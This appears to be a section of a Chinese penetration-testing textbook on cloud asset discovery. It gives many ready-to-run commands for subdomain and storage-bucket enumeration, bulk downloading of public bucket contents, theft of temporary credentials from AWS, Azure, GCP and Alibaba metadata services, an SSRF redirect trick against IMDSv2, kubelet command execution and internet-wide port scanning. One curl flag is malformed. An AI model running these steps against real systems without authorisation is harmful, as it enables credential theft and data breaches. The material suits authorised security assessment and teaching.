




## 12.2.1 云环境资产发现与枚举

云环境资产发现与枚举是云安全评估的起点，也是整个攻击链侦察阶段的核心环节。与传统IT资产不同，云资产具有动态性强、边界模糊、服务类型多样等特点——一个组织的云资产可能分散在AWS、Azure、GCP、阿里云等多个平台上，通过数百个S3 Bucket、Lambda函数、容器集群和API端点对外暴露。攻击者只需找到其中一个配置错误的入口，就能突破整个云环境。

本节从攻击者视角出发，系统讲解云资产发现的方法论、技术细节和实战工具，覆盖从域名枚举到元数据服务利用的完整链路。

### 云安全责任共担模型

在开始资产发现之前，必须理解云安全责任共担模型（Shared Responsibility Model）。这个模型决定了攻击者和防御者各自的"作战空间"——云服务商负责底层基础设施安全，客户负责上层配置和数据安全。大部分云安全事件都发生在客户责任范围内，比如公开的S3 Bucket、过度授权的IAM角色、未加密的数据卷等。



**关键认知**：攻击者在云环境中的主要攻击面是客户责任区域。这意味着资产发现的重点是找到客户配置错误的部分——错误的权限策略、暴露的存储桶、未受保护的API端点、过度授权的服务角色等。

### 云资产发现方法论全景

完整的云资产发现流程遵循以下递进路径：



每个阶段的发现结果会为下一阶段提供线索。例如，子域名枚举发现 `assets.example.com` CNAME指向 `example-assets.s3.amazonaws.com`，由此可以推断S3 Bucket名称并进一步枚举其内容。

### 子域名枚举与云服务识别

#### 子域名枚举的核心价值

云环境中的资产往往通过子域名暴露。一个组织可能有 `api.example.com` 指向AWS API Gateway，`cdn.example.com` 指向CloudFront，`app.example.com` 指向Azure App Service。通过系统化的子域名枚举，可以绘制出目标组织的完整云资产地图。

#### 被动枚举技术

被动枚举不直接与目标交互，通过第三方数据源收集信息，隐蔽性极高。

**1. 证书透明度日志（Certificate Transparency）**

SSL/TLS证书在签发时会被记录到公开的证书透明度日志中。通过查询这些日志，可以发现大量子域名：

```bash
# crt.sh - 最常用的证书透明度查询工具
curl -s "https://crt.sh/?q=%25.example.com&output=json" | jq -r '.[].name_value' | sort -u

# 使用 certspotter（更结构化的API）
curl -s "https://api.certspotter.com/v1/issuances?domain=example.com&include_subdomains=true&expand=dns_names" | jq -r '.[].dns_names[]' | sort -u

# Censys 证书搜索
# 通过 Censys Search API 查询证书中的域名
curl -s "https://search.censys.io/api/v2/certificates/search?q=parsed.names:example.com&per_page=100" \
  -H "Authorization: Basic $(echo -n 'API_ID:API_SECRET' | base64)"
```

证书透明度日志的优势在于能发现已经过期或被替换的证书中的历史子域名，这些域名可能仍然指向活跃的云服务。

**2. 搜索引擎被动收集**

```bash
# 使用 Subfinder 聚合多个被动数据源
subfinder -d example.com -silent -all

# Amass 被动模式（不主动探测，仅查询数据源）
amass enum -passive -d example.com -o amass_passive.txt

# 使用 SecurityTrails API
curl -s "https://api.securitytrails.com/v1/domain/example.com/subdomains" \
  -H "APIKEY: your_api_key" | jq -r '.subdomains[]' | sed 's/$/.example.com/'
```

**3. DNS历史记录与缓存数据**

```bash
# DNSDumpster
curl -s "https://dnsdumpster.com/" -c cookies.txt  # 先获取CSRF token
# 然后提交查询获取DNS记录

# VirusTotal 子域名查询
curl -s "https://www.virustotal.com/api/v3/domains/example.com/subdomains" \
  -x-header "x-apikey: your_api_key"

# 查找已知的DNS记录缓存
# dnstrails 提供历史DNS记录查询
```

#### 主动枚举技术

主动枚举直接与目标DNS服务器或Web服务交互，信息更准确但隐蔽性较低。

**1. 字典爆破子域名**

```bash
# 使用 dnsx 进行DNS解析验证
subfinder -d example.com -silent | dnsx -silent -a -aaaa -cname -resp

# 使用 puredns 进行大规模DNS爆破
puredns bruteforce /usr/share/wordlists/subdomains.txt example.com \
  --resolvers resolvers.txt \
  --rate-limit 1000

# Gobuster DNS模式
gobuster dns -d example.com -w /usr/share/wordlists/subdomains.txt \
  -t 50 --no-error
```

**2. 区域传输尝试**

DNS区域传输（AXFR）如果配置不当，会泄露整个域名的所有DNS记录：

```bash
# 尝试区域传输
dig axfr example.com @ns1.example.com

# 使用 dnsrecon 自动尝试
dnsrecon -d example.com -t axfr

# 使用 host 命令
host -t axfr example.com ns1.example.com
```

> **实战提示**：区域传输在现代云环境中很少成功，但值得一试——一旦成功，可以直接获得完整的DNS记录清单，包括内部服务的域名。

#### 云服务归属识别

发现子域名后，需要判断每个域名指向哪个云平台。这是后续针对性枚举的基础。

```bash
# === CNAME记录分析 ===
# CNAME记录是最直接的云平台标识
dig CNAME api.example.com +short
# 输出示例：example-api-1234.us-east-1.elb.amazonaws.com → AWS ELB

dig CNAME cdn.example.com +short
# 输出示例：d1234.cloudfront.net → AWS CloudFront

dig CNAME app.example.com +short
# 输出示例：app.azurewebsites.net → Azure App Service

dig CNAME storage.example.com +short
# 输出示例：example.oss-cn-hangzhou.aliyuncs.com → 阿里云OSS

# === 批量CNAME分析脚本 ===
#!/bin/bash
DOMAINS_FILE="$1"
while IFS= read -r domain; do
    cname=$(dig CNAME "$domain" +short 2>/dev/null)
    if [[ -n "$cname" ]]; then
        cloud="Unknown"
        case "$cname" in
            *amazonaws.com*) cloud="AWS" ;;
            *azurewebsites.net*) cloud="Azure" ;;
            *cloudfront.net*) cloud="AWS CloudFront" ;;
            *googleapis.com*) cloud="GCP" ;;
            *googleusercontent.com*) cloud="GCP" ;;
            *aliyuncs.com*) cloud="Alibaba Cloud" ;;
            *myqcloud.com*) cloud="Tencent Cloud" ;;
            *hwclouds.com*) cloud="Huawei Cloud" ;;
            *cdn77.org*) cloud="CDN77" ;;
            *cloudflare.com*) cloud="Cloudflare" ;;
            *fastly.net*) cloud="Fastly" ;;
            *akamaiedge.net*) cloud="Akamai" ;;
        esac
        echo "$domain → $cname [$cloud]"
    fi
done < "$DOMAINS_FILE"
```

**主流云平台CNAME特征速查表**：

| 云平台 | CNAME特征 | 示例 |
|--------|-----------|------|
| AWS ELB | `*.elb.amazonaws.com` | `myapp-1234.us-east-1.elb.amazonaws.com` |
| AWS S3 | `*.s3.amazonaws.com` | `mybucket.s3.amazonaws.com` |
| AWS CloudFront | `*.cloudfront.net` | `d1234abcd.cloudfront.net` |
| AWS API Gateway | `*.execute-api.*.amazonaws.com` | `abc123.execute-api.us-east-1.amazonaws.com` |
| Azure App Service | `*.azurewebsites.net` | `myapp.azurewebsites.net` |
| Azure Blob | `*.blob.core.windows.net` | `myaccount.blob.core.windows.net` |
| Azure CDN | `*.azureedge.net` | `mycdn.azureedge.net` |
| GCP Cloud Run | `*.run.app` | `myapp-abc123-uc.a.run.app` |
| GCP App Engine | `*.appspot.com` | `myproject.appspot.com` |
| GCP Storage | `*.storage.googleapis.com` | `mybucket.storage.googleapis.com` |
| 阿里云 OSS | `*.aliyuncs.com` | `mybucket.oss-cn-hangzhou.aliyuncs.com` |
| 阿里云 CDN | `*.alikunlun.com` 或 `*.kunlun.com` | `cdn.example.com.w.kunlun.com` |
| 腾讯云 COS | `*.myqcloud.com` | `mybucket-1250000000.cos.ap-guangzhou.myqcloud.com` |
| 华为云 OBS | `*.obs.*.myhuaweicloud.com` | `mybucket.obs.cn-north-1.myhuaweicloud.com` |

**IP地址归属查询**：当CNAME记录为空（直接A记录）时，需要通过IP归属判断云平台：

```bash
# 查询IP归属
whois 52.216.84.12 | grep -i "org\|net\|descr"
# 输出示例：OrgName: Amazon.com, Inc.

# 使用云平台IP范围列表交叉比对
# AWS IP范围：https://ip-ranges.amazonaws.com/ip-ranges.json
curl -s https://ip-ranges.amazonaws.com/ip-ranges.json | jq -r '.prefixes[] | select(.ip_prefix=="52.216.0.0/16") | .service'

# 使用 nmap 指纹识别
nmap -sV -p 80,443 target_ip --script ssl-cert
```

**HTTP响应头特征**：

```bash
# 通过响应头判断云平台
curl -sI https://example.com | grep -i "server\|x-powered-by\|x-amz\|x-azure\|x-goog"

# AWS特征头
# Server: AmazonS3
# x-amz-request-id: ABCDEF1234567890
# x-amz-version-id: v1.0

# Azure特征头
# x-ms-request-id: abcdef-1234-5678
# x-ms-version: 2020-04-08

# GCP特征头
# x-goog-generation: 1234567890
# x-goog-metageneration: 1
```

### 存储桶枚举（S3 / Blob / OSS / COS）

云存储桶是云安全中最常见、最高危的攻击面之一。公开的存储桶曾导致Facebook 5.4亿用户数据泄露、Capital One 1.06亿用户数据泄露等重大安全事件。存储桶枚举的目标是发现目标组织的所有存储桶，并判断其访问权限。

#### AWS S3 Bucket枚举

**Bucket命名规则**：S3 Bucket名称全局唯一，3-63个字符，只能包含小写字母、数字和连字符，不能以连字符开头或结尾，不能格式化为IP地址。

**1. DNS枚举法**

```bash
# 基本DNS查询判断Bucket是否存在
dig example-bucket.s3.amazonaws.com +short
# 存在：返回IP地址
# 不存在：NXDOMAIN

# 通过HTTP响应码判断
curl -s -o /dev/null -w "%{http_code}" https://example-bucket.s3.amazonaws.com
# 200 = Bucket存在且可列出
# 403 = Bucket存在但拒绝列出
# 404 = Bucket不存在

# 批量枚举脚本
#!/bin/bash
COMPANY="example"
WORDLIST="bucket_names.txt"

while IFS= read -r word; do
    bucket="${COMPANY}-${word}"
    status=$(curl -s -o /dev/null -w "%{http_code}" \
        "https://${bucket}.s3.amazonaws.com" --connect-timeout 5)
    if [[ "$status" != "404" ]]; then
        echo "[${status}] ${bucket}"
    fi
done < "$WORDLIST"
```

**2. 工具自动化枚举**

```bash
# === cloud_enum ===
# 支持AWS S3、Azure Blob、GCP Cloud Storage的统一枚举
pip install cloud_enum
cloud_enum -k example -l cloud_enum_results.txt

# === S3Scanner ===
# 专注于S3 Bucket的发现和权限扫描
pip install s3scanner
s3scanner --bucket example-bucket
s3scanner --list bucket_names.txt --dump  # 发现并下载公开内容

# === bucket-finder ===
# 通过搜索引擎发现公开的S3 Bucket
# Google Dork: site:s3.amazonaws.com "example"
# Bing: site:s3.amazonaws.com example

# === AWS CLI 直接测试 ===
# 列出Bucket内容
aws s3 ls s3://example-bucket --no-sign-request

# 尝试读取特定文件
aws s3 cp s3://example-bucket/config.json ./config.json --no-sign-request

# 检查Bucket策略
aws s3api get-bucket-policy --bucket example-bucket --no-sign-request

# 检查ACL
aws s3api get-bucket-acl --bucket example-bucket --no-sign-request
```

**3. Bucket权限判断流程**



**4. 常见泄露文件名**

在枚举过程中，以下文件名值得优先尝试：

```bash
# 配置文件
config.json, config.yml, settings.py, .env, .env.production
application.properties, appsettings.json, web.config

# 数据备份
backup.sql, dump.sql, database.sql.gz, backup.tar.gz
export.csv, users.csv, dump.json

# 日志文件
access.log, error.log, application.log, debug.log

# 密钥和凭证
credentials.json, service-account.json, id_rsa, id_rsa.pub
tokens.json, api_keys.txt, secrets.yaml

# 前端资源（可能泄露配置）
main.js, app.js, index.html, bundle.js
robots.txt, sitemap.xml, .git/config
```

#### Azure Blob Storage枚举

Azure Blob Storage的URL格式为 `https://<account_name>.blob.core.windows.net/<container_name>/`。

```bash
# === 判断存储账户是否存在 ===
# 返回200表示存在，404表示不存在
curl -s -o /dev/null -w "%{http_code}" \
  "https://exampleaccount.blob.core.windows.net/?comp=list"

# === 列出容器 ===
# 如果存储账户允许匿名访问，可以列出所有容器
curl -s "https://exampleaccount.blob.core.windows.net/?comp=list" | xmllint --format -

# === 枚举容器内容 ===
curl -s "https://exampleaccount.blob.core.windows.net/mycontainer?restype=container&comp=list"

# === 使用 MicroBurst 工具集 ===
# MicroBurst 是Azure安全评估的综合工具集（PowerShell）
Import-Module ./MicroBurst.psm1
Invoke-EnumerateAzureBlobs -Base exampleaccount
Get-AzureBlobContent -Account exampleaccount -Container mycontainer

# === 使用 cloud_enum 统一枚举 ===
cloud_enum -k example -l results.txt
# 会自动检查 Azure Blob 和 Azure File Storage
```

**Azure Blob 特征头**：
```yaml
x-ms-request-id: 00000000-0000-0000-0000-000000000000
x-ms-version: 2021-08-06
x-ms-blob-type: BlockBlob
```

#### 阿里云OSS枚举

阿里云OSS（Object Storage Service）的URL格式为 `https://<bucket_name>.<endpoint>/`，例如 `https://mybucket.oss-cn-hangzhou.aliyuncs.com/`。

```bash
# === 判断Bucket是否存在 ===
curl -s -o /dev/null -w "%{http_code}" \
  "https://example-bucket.oss-cn-hangzhou.aliyuncs.com"
# 200 = 存在且可列出
# 403 = 存在但禁止
# 404 = 不存在

# === 列出Bucket内容 ===
curl -s "https://example-bucket.oss-cn-hangzhou.aliyuncs.com?list-type=2&max-keys=100"

# === 尝试常见文件 ===
curl -s -o /dev/null -w "%{http_code}" \
  "https://example-bucket.oss-cn-hangzhou.aliyuncs.com/config.json"

# === 阿里云OSS多区域端点 ===
# 枚举时需要覆盖所有区域端点
ENDPOINTS=(
    "oss-cn-hangzhou.aliyuncs.com"
    "oss-cn-shanghai.aliyuncs.com"
    "oss-cn-beijing.aliyuncs.com"
    "oss-cn-shenzhen.aliyuncs.com"
    "oss-cn-guangzhou.aliyuncs.com"
    "oss-cn-chengdu.aliyuncs.com"
    "oss-cn-hongkong.aliyuncs.com"
)
for ep in "${ENDPOINTS[@]}"; do
    status=$(curl -s -o /dev/null -w "%{http_code}" \
        "https://example-bucket.${ep}" --connect-timeout 5)
    echo "[${status}] example-bucket.${ep}"
done
```

#### 腾讯云COS枚举

腾讯云COS的URL格式为 `https://<bucket_name>-<appid>.cos.<region>.myqcloud.com/`。

```bash
# 判断Bucket是否存在
curl -s -o /dev/null -w "%{http_code}" \
  "https://example-1250000000.cos.ap-guangzhou.myqcloud.com"

# 列出Bucket内容
curl -s "https://example-1250000000.cos.ap-guangzhou.myqcloud.com?list-type=2"

# 常见区域端点
# cos.ap-guangzhou.myqcloud.com
# cos.ap-beijing.myqcloud.com
# cos.ap-shanghai.myqcloud.com
# cos.ap-nanjing.myqcloud.com
# cos.ap-chengdu.myqcloud.com
```

#### 多云存储桶枚举对比

| 特性 | AWS S3 | Azure Blob | 阿里云OSS | 腾讯云COS |
|------|--------|------------|-----------|-----------|
| URL格式 | `<bucket>.s3.amazonaws.com` | `<account>.blob.core.windows.net/<container>` | `<bucket>.<endpoint>` | `<bucket>-<appid>.cos.<region>.myqcloud.com` |
| 全局唯一性 | 是 | 账户级别 | 否（区域级别） | 否（账户级别） |
| 匿名列举 | 可配置 | 可配置 | 可配置 | 可配置 |
| 常见泄露场景 | 策略设置为`Principal:*` | 容器设为Blob/Container级别匿名访问 | ACL设为public-read | 公开读权限 |
| 检测工具 | S3Scanner, cloud_enum | MicroBurst, cloud_enum | cloud_enum, ossutil | coscli, cloud_enum |

### 云元数据服务枚举与利用

云元数据服务（Instance Metadata Service, IMDS）是云安全中最具价值的攻击目标之一。每台云主机都可以通过特殊IP地址 `169.254.169.254` 访问本实例的元数据，包括临时凭证、安全组、用户数据（UserData）等敏感信息。

#### AWS IMDSv1与IMDSv2

**IMDSv1（旧版，无认证）**：直接发送HTTP请求即可获取元数据，容易被SSRF攻击利用。

```bash
# === IMDSv1 基本枚举 ===

# 获取实例ID
curl http://169.254.169.254/latest/meta-data/instance-id

# 获取所有可用的元数据路径
curl http://169.254.169.254/latest/meta-data/

# 获取IAM角色名称
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# 获取临时凭证（最关键的攻击目标）
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ExampleRole
# 返回JSON包含：AccessKeyId, SecretAccessKey, Token, Expiration

# 获取用户数据（可能包含启动脚本、配置、密钥）
curl http://169.254.169.254/latest/user-data

# 获取网络信息
curl http://169.254.169.254/latest/meta-data/network/interfaces/macs/
curl http://169.254.169.254/latest/meta-data/local-ipv4
curl http://169.254.169.254/latest/meta-data/public-ipv4

# 获取安全组
curl http://169.254.169.254/latest/meta-data/security-groups
```

**IMDSv2（新版，需Token认证）**：要求先获取Session Token，然后在后续请求中携带该Token，有效防御SSRF攻击。

```bash
# === IMDSv2 攻击方式 ===

# 步骤1：获取Token（需要PUT请求和TTL头）
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
echo "Token: $TOKEN"

# 步骤2：使用Token访问元数据
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/ExampleRole

# 步骤3：获取用户数据
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/user-data
```

**IMDSv2的绕过思路**：

IMDSv2虽然防御了大部分SSRF攻击，但在某些场景下仍然可以被绕过：

1. **服务器端请求重定向**：如果SSRF漏洞允许跟随重定向（HTTP 302），可以通过重定向链绕过PUT方法限制
2. **SSRF链攻击**：利用应用中的多个SSRF点，一个获取Token，另一个使用Token读取数据
3. **WebShell场景**：如果已经获取了WebShell，可以直接从实例内部调用IMDSv2
4. **容器逃逸场景**：如果容器与主机共享网络命名空间，可以访问宿主机的元数据服务

```bash
# SSRF重定向绕过示例
# 在攻击者控制的服务器上设置重定向：
# Python Flask示例
from flask import Flask, redirect
app = Flask(__name__)

@app.route('/redirect-to-imds')
def redirect_to_imds():
    # PUT请求会被重定向到元数据服务
    return redirect('http://169.254.169.254/latest/meta-data/', code=307)

# 307状态码会保留原始请求方法（包括PUT），从而获取Token
```

#### 各云平台元数据服务地址

| 云平台 | 元数据地址 | 认证方式 | 特殊说明 |
|--------|-----------|----------|----------|
| AWS | `http://169.254.169.254/latest/meta-data/` | IMDSv2需Token | 版本路径：`/latest/` |
| Azure | `http://169.254.169.254/metadata/instance?api-version=2021-02-01` | 需`Metadata:true`头 | 返回JSON格式 |
| GCP | `http://metadata.google.internal/computeMetadata/v1/` | 需`Metadata-Flavor: Google`头 | `?recursive=true`获取全部 |
| 阿里云 | `http://100.100.100.200/latest/meta-data/` | 无认证 | 阿里云用`100.100.100.200` |
| 腾讯云 | `http://metadata.tencentyun.com/latest/meta-data/` | 无认证 | 部分字段不同 |
| 华为云 | `http://169.254.169.254/latest/meta-data/` | 需`X-Auth-Token` | 与AWS类似 |

```bash
# === Azure元数据枚举 ===
curl -H "Metadata:true" \
  "http://169.254.169.254/metadata/instance?api-version=2021-02-01"

# 获取Azure Managed Identity令牌
curl -H "Metadata:true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# === GCP元数据枚举 ===
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/?recursive=true"

# 获取GCP Service Account令牌
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"

# 获取GCP用户数据（启动脚本）
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/instance/attributes/startup-script"

# === 阿里云元数据枚举 ===
curl "http://100.100.100.200/latest/meta-data/"
curl "http://100.100.100.200/latest/user-data"
curl "http://100.100.100.200/latest/meta-data/ram/security-credentials/"
```

#### 元数据服务利用的攻击路径



### API端点与服务枚举

云环境暴露的API端点是另一个重要的攻击面。包括云服务管理API、业务API Gateway、Kubernetes API Server等。

#### 云服务管理API枚举

```bash
# === AWS API Gateway 枚举 ===
# API Gateway URL格式：https://<api-id>.execute-api.<region>.amazonaws.com/<stage>

# 通过子域名发现API Gateway
amass enum -d execute-api.amazonaws.com -brute

# 测试常见API路径
curl -s https://abc123.execute-api.us-east-1.amazonaws.com/prod/
curl -s https://abc123.execute-api.us-east-1.amazonaws.com/dev/
curl -s https://abc123.execute-api.us-east-1.amazonaws.com/staging/

# === Azure API Management ===
# 格式：https://<instance>.azure-api.net
curl -s "https://example.azure-api.net"

# 访问开发者门户获取API列表
curl -s "https://example.developer.azure-api.net"

# === Kubernetes API Server ===
# 默认端口6443
curl -sk https://target:6443/api/v1/namespaces
curl -sk https://target:6443/api/v1/secrets  # 需要认证
curl -sk https://target:6443/version  # 通常无需认证

# 使用kubelet API（端口10250）
curl -sk https://target:10250/pods
curl -sk https://target:10250/run/<namespace>/<pod>/<container>
```

#### 业务API文档泄露

很多云部署的API会暴露Swagger/OpenAPI文档：

```bash
# 常见的API文档路径
PATHS=(
    "/swagger.json"
    "/swagger/v1/swagger.json"
    "/api-docs"
    "/v2/api-docs"
    "/openapi.json"
    "/openapi.yaml"
    "/docs"
    "/redoc"
    "/graphql"  # GraphQL Playground
    "/graphiql"
)

for path in "${PATHS[@]}"; do
    status=$(curl -s -o /dev/null -w "%{http_code}" \
        "https://api.example.com${path}" --connect-timeout 5)
    if [[ "$status" == "200" ]]; then
        echo "[FOUND] https://api.example.com${path}"
    fi
done
```

### IAM资源枚举

如果已经获得了云账户的初步访问凭证（如Access Key），可以进一步枚举IAM资源，包括用户、角色、策略、组等。

```bash
# === AWS IAM枚举 ===

# 枚举当前身份
aws sts get-caller-identity

# 枚举IAM用户
aws iam list-users

# 枚举IAM角色
aws iam list-roles

# 枚举IAM策略
aws iam list-policies --scope Local

# 枚举组
aws iam list-groups

# 检查当前用户的权限边界
aws iam list-attached-user-policies --user-name $(aws sts get-caller-identity --query 'Arn' --output text | awk -F'/' '{print $NF}')

# 使用 enumerate-iam 工具
# 自动探测当前凭证的所有可用权限
python3 enumerate-iam.py --access-key AKIA... --secret-key ...
```

```bash
# === Azure AD枚举 ===

# 使用 AzureHound（Bloodhound for Azure）
azurehound -u user@example.com -p password list --tenant example.com

# 使用 Stormspotter
# 可视化Azure AD和Azure资源的关系图

# 使用 ROADtools
roadrecon gather  # 收集Azure AD数据
roadrecon gui     # Web界面查看
```

### 容器与无服务器资产枚举

#### Docker Registry枚举

```bash
# 未认证的Docker Registry可以泄露镜像信息
# 默认端口5000

# 列出所有镜像
curl -s http://target:5000/v2/_catalog

# 列出镜像的标签
curl -s http://target:5000/v2/<image_name>/tags/list

# 获取镜像的manifest
curl -s http://target:5000/v2/<image_name>/manifests/<tag>

# 下载镜像层（可能包含敏感文件）
# 先获取digest，然后通过blob端点下载
curl -s http://target:5000/v2/<image_name>/blobs/<digest>
```

#### Kubernetes资产枚举

```bash
# 使用 kubeaudit 检查集群安全配置
kubeaudit all

# 使用 kube-hunter 进行主动探测
kube-hunter --remote target_ip

# 枚举Kubernetes服务发现
# etcd端口2379/2380
curl -sk https://target:2379/v2/keys/?recursive=true

# Kubelet API（端口10250/10255）
curl -sk http://target:10255/pods | jq '.items[] | {name: .metadata.name, namespace: .metadata.namespace, status: .status.phase}'

# Dashboard（端口30000-32767或443上的ingress）
curl -sk https://target:30000/
```

#### Serverless函数枚举

```bash
# === AWS Lambda枚举 ===
# 通过CloudFormation或Terraform状态文件发现Lambda函数
aws lambda list-functions

# 通过API Gateway关联发现
aws apigateway get-rest-apis

# 检查Lambda函数代码
aws lambda get-function --function-name my-function

# === Azure Functions枚举 ===
# 格式：https://<function_app>.azurewebsites.net
# 通过Kudu管理接口
curl -s "https://example.scm.azurewebsites.net/api/functions"

# === GCP Cloud Functions枚举 ===
# 格式：https://<region>-<project>.cloudfunctions.net/<function_name>
gcloud functions list
```

### 云环境端口扫描

云环境中的端口扫描需要特别注意策略——云平台有速率限制和滥用检测机制，大规模扫描可能触发告警甚至导致IP被封禁。

#### 高价值端口清单

| 端口 | 服务 | 风险等级 | 说明 |
|------|------|----------|------|
| 22 | SSH | 中 | 可能存在弱密码或密钥泄露 |
| 80/443 | HTTP/HTTPS | 低-中 | Web应用攻击面 |
| 3306 | MySQL | 高 | 云数据库不应对外暴露 |
| 5432 | PostgreSQL | 高 | 云数据库不应对外暴露 |
| 6379 | Redis | 极高 | 默认无认证，可RCE |
| 8080 | HTTP Alt | 中 | 管理界面或开发服务 |
| 8443 | HTTPS Alt | 中 | 管理界面 |
| 9090 | Prometheus | 高 | 指标数据泄露 |
| 9200 | Elasticsearch | 极高 | 默认无认证 |
| 9300 | Elasticsearch Transport | 高 | 集群通信端口 |
| 11211 | Memcached | 高 | 默认无认证，可DDoS放大 |
| 2375 | Docker API | 极高 | 未认证的Docker Remote API |
| 2376 | Docker TLS | 高 | 需要TLS证书 |
| 27017 | MongoDB | 极高 | 默认无认证 |
| 3000 | Grafana/Node.js | 中 | 管理仪表板 |
| 5601 | Kibana | 高 | 日志查看器 |
| 6443 | Kubernetes API | 极高 | K8s控制平面 |
| 10250 | Kubelet API | 极高 | 可执行命令 |
| 2379 | etcd | 极高 | K8s数据存储 |

#### 扫描策略与工具

```bash
# === Masscan 高速扫描（适合大范围初筛） ===
masscan -p80,443,6379,27017,9200,2375,6443,10250 \
  --rate 1000 \
  --banners \
  -oL masscan_results.txt \
  52.0.0.0/8

# === Nmap 精细扫描（对发现的端口深入探测） ===
nmap -sV -sC -p 6379,27017,9200 target_ip \
  --script redis-info,mongodb-info,http-title

# === 使用 Shodan / Censys 被动扫描 ===
# Shodan搜索语法
